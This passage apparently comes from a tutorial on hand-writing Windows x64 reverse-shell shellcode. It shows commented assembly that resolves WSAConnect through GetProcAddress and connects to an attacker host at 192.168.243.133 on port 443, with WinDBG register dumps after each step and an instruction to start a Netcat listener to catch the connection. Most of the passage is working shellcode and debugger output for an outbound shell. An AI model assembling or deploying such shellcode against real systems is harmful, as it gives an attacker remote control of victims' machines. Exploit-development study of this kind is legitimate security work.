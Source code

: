 ```
# Resolve WSAConnect Address
" mov rax, 0x7463;"                  # Load the second part of "WSAConnect" into RAX
" push rax;"                         # Push the second part onto the stack
" mov rax, 0x656e6e6f43415357;"      # Load the first part of "WSAConnect" into RAX
" push rax;"                         # Push the first part onto the stack, completing "WSAConnect"
" mov rdx, rsp; "                    # Set RDX to the stack pointer, pointing to "WSAConnect"
" mov rcx, r15; "                    # Move the base address of WS2_32.dll (stored in R15) into RCX
" sub rsp, 0x30; "                   # Allocate 48 bytes on the stack to preserve the stack state
" call r14;"                         # Call GetProcAddress, whose address is stored in R14
" add rsp, 0x30; "                   # Deallocate the 48 bytes from the stack
" add rsp, 0x10; "                   # Adjust the stack to clean up after the string "WSAConnect"
" mov r12, rax; "                    # Store the address of WSAConnect in R12 for later use
```

The status of the `WSAConnect` module is verified in `WinDBG` to confirm it has started correctly:

```
0:003> x ws2_32!WSAConnect
00007ff9`65ce0130 WS2_32!WSAConnect (WSAConnect)
```

The function is then called to establish a connection.

```
# Initiate a connection using WSAConnect
" mov rcx, r13;"          # Set the first parameter, our socket handle, to RCX
" sub rsp, 0x208;"        # Allocate 520 bytes on the stack for local storage
" xor rax, rax;"          # Zero out RAX
" inc rax; "              # Increment RAX twice to set it to 2 (AF_INET)
" inc rax; "
" mov [rsp], rax;"        # Set AF_INET (2) at the top of the stack
" mov rax, 0xbb01;"       # Set RAX to the port number in little endian (443 in big endian)
" mov [rsp+2], rax; "     # Store the port number at RSP+2
" mov rax, 0x85f3a8c0;"   # Set RAX to the IP address in little endian (192.168.243.133”in big endian)
" mov [rsp+4], rax; "     # Store the IP address at RSP+4
" lea rdx, [rsp];"        # Load the address of the sockaddr structure into RDX
" mov r8, 0x16; "         # Set the namelen parameter (size of the sockaddr structure) to R8
" xor r9, r9;"            # Zero out R9 to use for lpCallerData, lpCalleeData, lpSQOS, lpGQOS
" push r9;"               # Push NULL for lpCallerData
" push r9;"               # Push NULL for lpCalleeData
" push r9;"               # Push NULL for lpSQOS
" sub rsp, 0x88; "        # Make additional space on the stack for alignment
" call r12;"              # Call WSAConnect using the address stored in R12
```

Before stepping over the call and inspecting the return value, a Netcat listener should be started on the attacker machine. Although the reverse shell is not yet complete, this API call is designed to initiate the connection, which can be intercepted using Netcat. Should the connection fail, the API will time out.

```
0:003> r
rax=0000000000000000 rbx=0000000000058000 rcx=0000000000000000
rdx=0000000000000003 rsi=00007ff964160800 rdi=0000000000000000
rip=000001af4ed3021a rsp=00000046307bf1e0 rbp=0000000000000000
 r8=00000046307becb8  r9=00000000000000a8 r10=0000000000000000
r11=00000046307bf1d0 r12=00007ff965ce0130 r13=000000000000021c
r14=00007ff96415b1d0 r15=00007ff965cb0000
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
000001af`4ed3021a 0000            add     byte ptr [rax],al ds:00000000`00000000=??
```
